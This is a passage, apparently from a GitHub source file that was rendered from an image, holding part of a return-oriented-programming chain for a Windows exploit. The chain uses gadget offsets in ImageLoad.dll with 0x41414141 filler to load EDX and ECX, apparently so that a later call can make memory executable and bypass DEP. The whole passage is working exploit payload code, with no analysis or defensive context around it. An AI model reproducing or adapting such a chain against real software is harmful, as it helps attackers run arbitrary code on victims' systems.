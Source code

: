 ```python
	  0x1001C8C8,						# 1001C8C8 + 0x1001C8C8 = 0x00001000 Value to be put into EDX
	  base_ImageLoad_dll + 0x00022c1e,  #(RVA : 0x00022c1e) : # ADD EDX,EBX # POP EBX # RETN 0x10    ** [ImageLoad.dll] **   |  ascii {PAGE_EXECUTE_READ}
	  0x41414141,                       # Filler (compensate)
	  #[---INFO:gadgets_to_set_ecx:---]
	  base_ImageLoad_dll + 0x00019aa2,  # POP ECX # RETN [ImageLoad.dll] 
	  0xffffffff,                       # ska bli 65
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  base_ImageLoad_dll + 0x00021fd8,  # INC ECX # ADD AL,5F # POP ESI # POP EBP # POP EBX # RETN [ImageLoad.dll] 
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
	  0x41414141,                       # Filler (compensate)
```